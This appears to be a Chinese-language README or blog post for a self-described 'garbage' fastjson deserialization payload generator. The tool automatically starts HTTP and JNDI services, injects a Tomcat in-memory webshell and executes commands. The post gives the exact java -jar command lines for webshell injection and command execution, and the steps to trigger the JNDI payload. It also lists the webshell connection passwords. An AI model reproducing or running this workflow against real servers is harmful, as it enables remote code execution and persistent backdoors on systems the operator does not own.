






# 无题

**介绍**

> 一个垃圾的fastjson反序列化payload生成工具，自动启动http服务，自动启动jndi服务，可以注入内存马，可以执行命令。秉持着多造轮子的终极原则，多写两行代码练练手也是很好的，但人反正是个菜鸡，所以工具写的也很菜鸡。

**ps**

> 忘记说了，里面用到了java的动态编译，然后这个玩意要用jre下面的java.exe来运行，不然会显示环境缺失。


**工具使用**

>在工具的README里想偷懒就没写使用方法了，在这里写一下吧。

1. 使用`jre`运行程序
   

>工具会自动创建`http`服务和`jndi`服务。`-m`参数表示直接注入`tomcat`内存马，`-h`参数是服务器地址，`-p`参数表示服务一直挂起。

```cmd
&"D:\Program Files\Java\jdk1.8.0_301\jre\bin\java.exe" -jar .\fastjson_tools-1.0-SNAPSHOT-jar-with-dependencies.jar -h 127.0.0.1 -m shell -p 1   #注入内存马的Exp

&"D:\Program Files\Java\jdk1.8.0_301\jre\bin\java.exe" -jar .\fastjson_tools-1.0-SNAPSHOT-jar-with-dependencies.jar -h 127.0.0.1 -e   whoami -p 1  #执行命令的Exp
```

2. 将生成的`jndi`地址换成你的`payload`，然后触发一下
   

3. 攻击成功会返回http服务收到请求，然后可以访问一下内存马。
   
   

>内存马的使用可以看另外一个项目[addMemShellsJSP](https://github.com/Ghost2097221/addMemShellsJSP)

4. 执行命令的利用方式
   

```cmd
&"D:\Program Files\Java\jdk1.8.0_301\jre\bin\java.exe" -jar .\fastjson_tools-1.0-SNAPSHOT-jar-with-dependencies.jar -h 127.0.0.1 -e whoami -p 1

X-FORWARDEDS-FOR: whoami


内存马的连接密码：ifconflag  和 p@ssW0rd@123
```



